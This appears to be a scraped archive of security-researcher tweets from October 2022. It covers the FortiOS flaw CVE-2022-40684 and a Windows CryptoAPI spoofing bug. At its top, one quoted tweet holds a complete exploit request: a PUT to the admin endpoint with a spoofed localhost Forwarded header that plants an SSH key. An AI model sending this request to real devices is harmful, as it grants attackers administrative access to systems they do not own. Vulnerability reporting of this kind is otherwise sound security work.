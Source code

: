 PUT /api/v2/cmdb/system/admin/admin HTTP/1.1
 Host: Hostname
User-Agent: Report Runner
Content-Type: application/json
Forwarded: for=[127.0.0.1]:8000;by=[127.0.0.1]:9000;
Content-Length: 606
{
"ssh-public-key1": "key"
}
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1580726659967496192 _at 2022-10-14, 01:06:18_**
<blockquote>
We have successfully managed to replicate and confirm the public PoC for CVE-2022-40684. which grants SSH access without any interaction to vulnerable FortiOS instances, with CVSS score of 9.6.

#CVE-2022-40684

https://t.co/9ZV4vcKbj9
</blockquote>

* https://github.com/NagliNagli/BountyTricks/blob/main/CVE-2022-40684.yaml

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>115</code></td>
<td>Favorites: <code>319</code></td>
</tr></table>

---

# gentilkiwi
**https://twitter.com/gentilkiwi/status/1580677951481577473 _at 2022-10-13, 21:52:45_**
<blockquote>
Seen CVE-2022-34689 ? (NSA/NCSC)

Windows CryptoAPI Spoofing Vulnerability
[...] could manipulate an existing public x.509 certificate to spoof their identify and perform actions [...]

&gt; https://t.co/1RxwiDNZGX
